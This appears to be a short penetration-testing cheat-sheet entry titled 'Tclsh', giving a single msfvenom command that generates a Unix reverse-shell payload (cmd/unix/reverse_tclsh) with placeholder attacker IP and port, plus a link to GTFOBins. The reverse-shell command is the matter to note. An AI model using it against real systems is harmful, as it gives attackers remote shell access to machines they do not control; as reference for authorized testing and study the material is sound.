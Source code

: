# Tclsh

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_tclsh lhost=<IP> lport=<PORT>
```

---
## References

- [GTFOBins: tclsh](https://gtfobins.github.io/gtfobins/tclsh/)